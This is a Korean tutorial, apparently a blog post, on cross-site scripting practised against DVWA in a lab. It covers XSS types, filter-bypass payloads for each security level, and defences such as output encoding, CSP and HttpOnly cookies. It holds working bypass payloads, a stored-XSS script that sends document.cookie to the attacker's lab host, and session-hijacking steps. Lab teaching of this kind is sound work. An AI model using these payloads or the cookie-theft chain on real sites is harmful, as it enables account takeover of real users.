





## 개요

**실습 환경**

| 항목 | 값 |
|---|---|
| 공격자(Kali Linux) | 192.168.0.10 |
| 대상(Ubuntu + DVWA) | 192.168.0.30/DVWA/ |

XSS(Cross-Site Scripting)는 공격자가 웹사이트에 악성 JavaScript를 삽입하여 다른 사용자의 브라우저에서 실행시키는 공격입니다.  
웹 서버 자체를 직접 공격하는 것이 아니라, 서버를 **중계 매체**로 삼아 다른 사용자를 노린다는 점이 핵심입니다.

**XSS로 할 수 있는 것**

- 세션 쿠키 탈취 → 계정 탈취
- 가짜 로그인 화면으로 피싱
- 악성 사이트로 리다이렉트
- 브라우저 내 키로거 삽입
- 관리자 권한 계정 탈취 (Blind XSS)

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | **A05:2025 – Injection** (구 A03:2021) |
| CWE | CWE-79 (웹 페이지 생성 시 입력의 부적절한 무력화) |
| 영향 | 세션 쿠키 탈취·계정 탈취, 피싱, 악성 리다이렉트, 관리자 권한 탈취 |
| 한 줄 핵심 | 사용자 입력이 **HTML/JavaScript 코드로 해석**되어 다른 사용자의 브라우저에서 실행될 때 발생 |

> XSS는 2017년까지 단독 항목(A7)이었으나 2021부터 Injection에 통합되었고, **2025판에서 Injection은 A05**입니다.  
> SQLi와 형제 취약점이며, 방어 원리도 같습니다 — **출력 시점에 입력을 해당 컨텍스트(HTML/JS/URL)에 맞게 인코딩**해 코드로 해석되지 않게 합니다.
{: .prompt-info }

---

## 공격의 역사와 주요 사건

### 유래와 발견

"Cross-Site Scripting"이라는 용어는 **2000년 1월 무렵 마이크로소프트 보안 엔지니어들**이 만든 것으로 알려져 있습니다. 한 사이트에 주입한 스크립트가 다른 사이트(다른 출처)의 맥락에서 실행된다는 의미에서 "Cross-Site"라는 이름이 붙었고, 약자가 CSS(Cascading Style Sheets)와 겹쳐 **XSS**로 표기하게 되었습니다.

같은 해 **2000년 2월, 미국 CERT가 권고문 CA-2000-02 "Malicious HTML Tags Embedded in Client Web Requests"** 를 발표하면서 이 문제가 업계 전체에 공식화되었습니다. 즉 XSS는 특정 제품의 버그가 아니라 **"웹이 HTML을 신뢰해 실행한다"는 구조 자체에서 나온 결함**으로 규정되었습니다.

### 주요 침해 사건

| 연도 | 사건 | 내용 |
|---|---|---|
| 2005 | **Samy 웜 (MySpace)** | Samy Kamkar가 만든 **Stored XSS 웜**. 프로필을 본 사람이 자동으로 그를 친구 추가 + 같은 코드를 자기 프로필에 복제 → **20시간 만에 100만 명** 감염. 역사상 가장 빠르게 퍼진 웜 중 하나로, 제작자는 미 비밀경호국 수사를 받음 |
| 2014 | **TweetDeck 자가 전파 XSS** | 트윗 안의 스크립트가 그것을 본 사용자 계정으로 자동 리트윗되며 확산 → 서비스 일시 중단 |
| 2018 | **British Airways (Magecart)** | 결제 페이지에 악성 자바스크립트가 주입되어 **약 38만 건의 카드 정보**를 외부로 전송(웹 스키밍). GDPR 거액 과징금 |

> Samy 웜은 "XSS는 그저 `alert(1)` 띄우는 장난"이라는 인식을 깬 사건입니다. **저장형(Stored) XSS는 자기 복제로 웜이 될 수 있고**, Magecart 사례처럼 결제정보까지 실시간으로 빼냅니다.
{: .prompt-warning }

### 왜 이 공격이 통하는가 — 근본 원리

브라우저는 서버가 보낸 HTML 응답을 받으면, 그 안의 `<script>`·이벤트 핸들러(`onerror`, `onload`)·`javascript:` URL 등을 **"실행해야 할 코드"로 해석**합니다. 그리고 이 코드는 **해당 사이트의 출처(Origin) 권한**으로 실행됩니다 — 같은 출처이므로 그 사이트의 쿠키·DOM·로컬스토리지에 모두 접근할 수 있습니다.

문제는 브라우저가 **"개발자가 의도한 코드"와 "공격자가 입력으로 끼워 넣은 코드"를 구별하지 못한다**는 점입니다. 사용자 입력이 검증·인코딩 없이 HTML 응답에 그대로 박히면, 브라우저는 그것을 똑같이 신뢰해 실행합니다.

```html
<!-- 서버 출력: 입력값이 그대로 HTML에 박힘 -->
<p>검색어: </p>
<!-- 브라우저는 onerror를 '이 사이트의 정상 코드'로 믿고 실행 → 쿠키 탈취 -->
```

그래서 방어의 핵심은 **출력 시점의 컨텍스트 인코딩**입니다. `<`를 `&lt;`로 바꾸면 브라우저는 그것을 "태그 시작"이 아니라 **화면에 보여줄 글자 `<`** 로 처리하므로, 코드로 승격되지 않습니다. SQLi가 "파서가 데이터를 명령으로 해석"하는 문제라면, XSS는 "브라우저가 데이터를 코드로 해석"하는 같은 부류의 문제입니다.

---

## 1. XSS 종류

### 1.1 Reflected XSS (반사형)

악성 스크립트가 URL 파라미터를 통해 서버에 전달되고, 서버가 그 값을 검증 없이 응답에 그대로 포함시켜 반사됩니다.  
서버 DB에 저장되지 않으며, 피해자가 악성 링크를 클릭하는 순간만 실행됩니다.



**피해자 입장**에서는 정상 도메인 주소처럼 보이기 때문에 의심하기 어렵습니다.

---

### 1.2 Stored XSS (저장형)

악성 스크립트가 게시판, 댓글, 프로필 소개글 등을 통해 서버 DB에 저장됩니다.  
이후 해당 게시글을 조회하는 **모든 사용자의 브라우저**에서 자동으로 실행됩니다.



한 번 심어두면 삭제 전까지 **무한 피해**가 발생합니다. Reflected XSS보다 훨씬 위험합니다.

---

### 1.3 DOM-based XSS (DOM 기반)

서버를 **전혀 거치지 않고** 클라이언트 측 JavaScript가 URL의 Fragment(`#`) 등을 읽어 DOM을 직접 조작할 때 발생합니다.



`#` 이후 값은 서버로 전송되지 않으므로 **서버 로그에 흔적이 남지 않습니다.**

취약한 코드 패턴:

```javascript
// ❌ 취약 — innerHTML에 사용자 입력 직접 삽입
const name = location.hash.substring(6);
document.getElementById('greeting').innerHTML = '안녕, ' + name + '!';
```

공격 URL 예시:

```
http://192.168.0.30/page.html#name=
```

---

### 1.4 Blind XSS

공격자에게 즉시 결과가 보이지 않지만, 관리자 페이지나 내부 대시보드에서 관리자가 데이터를 열람할 때 실행됩니다.  
권한이 높은 사용자를 노리기 때문에 탈취한 쿠키의 가치가 매우 높습니다.



외부 콜백 서비스(예: XSSHunter, Burp Collaborator)를 이용해 실행 시점을 확인합니다.

---

### XSS 유형 비교

| 유형 | 저장 위치 | 트리거 | 피해 범위 | 서버 로그 |
|---|---|---|---|---|
| Reflected | 없음 (URL) | 악성 링크 클릭 | 링크를 클릭한 사람 | 남음 |
| Stored | 서버 DB | 게시글 방문 | 모든 방문자 | 남음 |
| DOM-based | 없음 (클라이언트 JS) | 악성 URL 방문 | URL을 연 사람 | 남지 않음 |
| Blind | 서버 DB | 관리자 열람 | 관리자 | 남음 |

---

## 2. DVWA 실습

### 2.0 레벨별 공격·방어 한눈에

DVWA의 XSS(Reflected/Stored) 모듈은 레벨마다 서버 필터가 강해집니다.

| 레벨 | 서버 측 방어 | 공격(우회) 방안 | 그 레벨의 방어 한계 |
|---|---|---|---|
| **Low** | 없음 | `<script>alert(document.cookie)</script>` 직접 삽입 | 검증 자체가 없음 |
| **Medium** | `str_replace('<script>','')` 로 `<script>` 1회 제거 (대소문자 구분) | 대소문자(`<ScRiPt>`)·중첩(`<scr<script>ipt>`)·이벤트 핸들러(``) | 블랙리스트가 `<script>` 한 패턴만 막음 |
| **High** | `preg_replace('/<(.*)s(.*)c...t/i')` 로 script 변형 차단 | **script 없는 벡터**: ``, `<svg onload=alert(1)>`, `<body onload=...>` | `script` 글자만 노릴 뿐 다른 태그·이벤트는 통과 |
| **Impossible** | `htmlspecialchars()` 출력 인코딩 (+ Stored는 `strip_tags()`) | 무력화됨 (`<`,`>`가 `&lt;`,`&gt;`로 변환되어 코드로 해석 안 됨) | — (근본 방어) |

> 핵심: 블랙리스트(Medium/High)는 항상 우회 벡터가 남습니다.  
> Impossible의 **출력 인코딩**(htmlspecialchars)만이 컨텍스트 단에서 XSS를 차단합니다(3장 참고).
{: .prompt-tip }

### 2.1 Reflected XSS

**경로**: DVWA → XSS (Reflected)

#### Security Level: Low

기본 알림 테스트:

```html
<script>alert('XSS')</script>
```

쿠키 탈취 테스트:

```html
<script>alert(document.cookie)</script>
```

#### Burp Suite로 요청 가로채기

1. Burp Suite 프록시 활성화 (127.0.0.1:8080)
2. 브라우저 프록시 설정 후 폼 제출
3. HTTP History에서 `?name=` 파라미터 확인
4. Repeater로 전송 → 응답에서 스크립트 반사 확인

#### Security Level: Medium 우회

Medium 레벨은 `<script>` 태그를 필터링합니다.  
대소문자 변환이나 태그 분리로 우회할 수 있습니다.

```html
<scr<script>ipt>alert(1)</scr</script>ipt>
```

또는 이벤트 핸들러 방식을 사용합니다.

```html

```

#### Security Level: High 우회

High 레벨은 `preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', ...)` 로 `script` 글자가 흩어져 있어도 차단합니다.  
하지만 **`script` 태그를 쓰지 않는 벡터**는 그대로 통과합니다.

```html

<svg onload=alert(document.cookie)>
<body onload=alert(document.cookie)>
<iframe src="javascript:alert(document.cookie)">
```

> High의 교훈: 블랙리스트가 `script` 한 단어에 집중하면, 공격자는 **다른 태그·이벤트 핸들러**로 우회합니다.
{: .prompt-warning }

#### Security Level: Impossible (방어 성공)

Impossible 레벨은 출력 시 `htmlspecialchars()` 로 인코딩합니다.

```php
echo '<pre>Hello ' . htmlspecialchars($_GET['name']) . '</pre>';
```

입력 `` 은 `&lt;img src=x onerror=alert(1)&gt;` 로 변환되어  
**화면에는 글자 그대로 출력**될 뿐 코드로 실행되지 않습니다. 어떤 우회 벡터도 통하지 않습니다.

---

### 2.2 Stored XSS

**경로**: DVWA → XSS (Stored)

#### Security Level: Low

게시판의 Message 필드에 다음 페이로드를 입력합니다.

```html
<script>document.location='http://192.168.0.10/steal?c='+document.cookie</script>
```

> **Name 필드의 글자 수 제한**: 브라우저 개발자 도구(F12) → Elements 탭에서 `maxlength` 값을 늘려서 긴 페이로드를 입력합니다.
{: .prompt-tip }

#### Kali에서 쿠키 수신 서버 실행

```bash
# Kali(192.168.0.10)에서 실행
python3 -m http.server 80
```

DVWA 게시판에 다른 사용자가 접속하면 Kali 터미널에 수신 로그가 출력됩니다.

```
192.168.0.30 - - [01/Jun/2026 11:00:00] "GET /steal?c=PHPSESSID=abc123; security=low HTTP/1.1" 200 -
```

#### 탈취한 세션 쿠키로 계정 접속

1. 브라우저에서 DVWA 접속
2. 개발자 도구(F12) → Application → Cookies
3. `PHPSESSID` 값을 탈취한 값으로 교체
4. 페이지 새로고침 → 다른 사용자로 로그인된 상태 확인

#### Security Level: Medium / High 우회

Stored 모듈은 Message 필드는 비교적 강하게 거르지만 **Name 필드 필터가 약합니다.**

- **Medium**: Name 필드는 `str_replace('<script>','')` 만 적용 → `<script>` 외 벡터로 우회합니다.  
  Name 칸은 `maxlength` 제한이 있으므로 F12로 `maxlength`를 늘린 뒤 입력합니다.

  ```html
  
  ```

- **High**: Name 필드는 script 정규식으로 거르지만 이벤트 핸들러 태그는 통과합니다.

  ```html
  <svg onload=alert(document.cookie)>
  ```

#### Security Level: Impossible (방어 성공)

Name·Message **두 필드 모두** `strip_tags()` 로 태그를 제거하고 `htmlspecialchars()` 로 인코딩합니다.  
저장 시점에 태그가 사라지므로 어떤 사용자가 열람해도 스크립트가 실행되지 않습니다.

> Stored XSS는 한 번 저장되면 모든 열람자에게 영향을 주므로, **입력 저장 + 출력 두 시점 모두**에서 처리하는 것이 안전합니다.
{: .prompt-warning }

---

### 2.3 DOM-based XSS

**경로**: DVWA → XSS (DOM)

URL 파라미터 조작:

```
http://192.168.0.30/DVWA/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```

또는 Fragment 방식:

```
http://192.168.0.30/DVWA/vulnerabilities/xss_d/#default=<script>alert(document.cookie)</script>
```

페이지 소스를 확인하면 JavaScript가 `document.URL` 또는 `location.search`에서 값을 읽어 DOM에 삽입하는 것을 볼 수 있습니다.

---

### 2.4 Nikto로 XSS 취약점 스캔

```bash
nikto -h http://192.168.0.30/DVWA/ -C all
```

스캔 결과에서 XSS 관련 항목 예시는 다음과 같습니다.

```
+ /DVWA/: Cookie PHPSESSID created without the httponly flag
+ /DVWA/: Cookie security created without the httponly flag
+ /DVWA/vulnerabilities/xss_r/: XSS possibly present, use --xss-all to check all pages
```

> Nikto는 자동화 스캔 도구이므로, 실제 침투 테스트에서는 수동 검증을 병행해야 합니다.
{: .prompt-warning }

---

## 3. 방어 방법

### 3.1 출력 인코딩 (HTML Entity Encoding)

XSS의 근본 원인은 **사용자 입력이 HTML/JS 컨텍스트에서 그대로 출력**되기 때문입니다.  
출력 전에 특수문자를 HTML Entity로 변환하면 스크립트로 해석되지 않습니다.

| 원본 문자 | 인코딩 결과 |
|---|---|
| `<` | `&lt;` |
| `>` | `&gt;` |
| `"` | `&quot;` |
| `'` | `&#x27;` |
| `&` | `&amp;` |

PHP 예시:

```php
<?php
// ❌ 취약
echo "안녕하세요, " . $_GET['name'] . "!";

// ✅ 안전 — htmlspecialchars로 출력 인코딩
echo "안녕하세요, " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8') . "!";
?>
```

---

### 3.2 CSP (Content Security Policy) 헤더

서버가 브라우저에게 "어떤 출처의 스크립트만 실행하라"고 지시하는 HTTP 응답 헤더입니다.  
인라인 스크립트와 외부 스크립트 실행을 제한합니다.

```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'
```

Apache `.htaccess` 또는 PHP에서 설정합니다.

```php
<?php
header("Content-Security-Policy: default-src 'self'; script-src 'self'");
?>
```

---

### 3.3 HttpOnly 쿠키 플래그

`HttpOnly` 속성이 설정된 쿠키는 JavaScript로 읽을 수 없습니다.  
XSS 공격이 성공하더라도 `document.cookie`로 세션 쿠키를 탈취할 수 없게 됩니다.

```php
<?php
// ✅ HttpOnly + Secure + SameSite 모두 설정
session_set_cookie_params([
    'lifetime' => 3600,
    'path'     => '/',
    'secure'   => true,      // HTTPS에서만 전송
    'httponly' => true,      // JavaScript 접근 차단
    'samesite' => 'Strict'   // CSRF 방지
]);
session_start();
?>
```

---

### 3.4 입력값 검증 및 Sanitization

서버 측에서 허용된 문자·형식만 수용합니다. 이름 필드라면 한글/영문/숫자만 허용하는 식입니다.

```php
<?php
$name = $_GET['name'];

// 영문자, 한글, 공백만 허용 (화이트리스트 방식)
if (!preg_match('/^[a-zA-Z가-힣 ]+$/', $name)) {
    die("허용되지 않는 문자가 포함되어 있습니다.");
}

echo htmlspecialchars($name, ENT_QUOTES, 'UTF-8');
?>
```

HTML 콘텐츠 허용이 필요한 경우 DOMPurify (클라이언트)나 HTML Purifier (서버 PHP)로 sanitize합니다.

```html
<!-- 클라이언트 측 DOMPurify 사용 예시 -->
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.6/purify.min.js"></script>
<script>
const userInput = location.hash.substring(1);
// ✅ innerHTML 전에 반드시 sanitize
document.getElementById('output').innerHTML = DOMPurify.sanitize(userInput);
</script>
```

---

### 3.5 안전한 DOM API 사용

DOM 기반 XSS의 원인은 `innerHTML`, `document.write`, `eval` 등입니다.  
텍스트만 출력할 때는 `textContent`를 사용합니다.

```javascript
// ❌ 취약 — innerHTML은 HTML 파싱 → 스크립트 실행 가능
document.getElementById('msg').innerHTML = userInput;

// ✅ 안전 — textContent는 텍스트로만 삽입
document.getElementById('msg').textContent = userInput;
```

---

### 3.6 X-XSS-Protection 헤더

구형 브라우저(IE, 구버전 Chrome)의 내장 XSS 필터를 활성화합니다.  
현대 브라우저에서는 CSP로 대체되었지만, 레거시 환경 지원을 위해 설정합니다.

```http
X-XSS-Protection: 1; mode=block
```

---

### 방어 방법 요약



---

## 4. 체크리스트

실습 후 다음 항목을 점검합니다.

- [ ] Reflected XSS: `alert(document.cookie)` 실행 확인
- [ ] Stored XSS: 페이로드 저장 → 방문 시 자동 실행 확인
- [ ] Stored XSS: Kali HTTP 서버에서 쿠키 수신 확인
- [ ] DOM XSS: URL 파라미터 조작으로 스크립트 실행 확인
- [ ] Nikto 스캔 결과에서 XSS 관련 취약점 확인
- [ ] Medium 레벨 필터 우회 시도 (이벤트 핸들러 방식)
- [ ] HttpOnly 쿠키 설정 시 `document.cookie` 접근 차단 확인

---

## 5. 정보보안기사 시험 포인트

| 구분 | 꼭 외울 것 |
|---|---|
| **방어 1순위** | 출력 시 `<` `>` `&` `"` 를 **HTML 엔티티로 치환**(`&lt;` `&gt;` `&amp;` `&quot;`) |
| **태그 허용 시** | 게시판이 HTML을 허용해야 하면 **허용 태그 화이트리스트**만 통과 |
| **CSRF와 관계** | CSRF 공격 코드도 **XSS와 마찬가지로 자바스크립트 형태**로 삽입 가능 — 둘 다 **입력값 검증 미흡**이 원인 |
| **쿠키 보호** | `HttpOnly` 설정 시 `document.cookie` 접근 차단 → XSS로도 세션 탈취 어려움 |

> **★ 자주 나오는 함정**: XSS 방어로 "**출력값 검증**"만 떠올리기 쉽지만, 시험은 흔히 **입력 단계의 문자 치환·화이트리스트**를 정답으로 제시합니다. 입력·출력 **양쪽 모두** 처리하는 것이 안전합니다. 상세 이론은 **11번 포스트 7.5장** 참고.
{: .prompt-tip }

---

## 참고

- OWASP XSS Prevention Cheat Sheet: <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>
- DVWA GitHub: <https://github.com/digininja/DVWA>
- PortSwigger XSS Labs: <https://portswigger.net/web-security/cross-site-scripting>
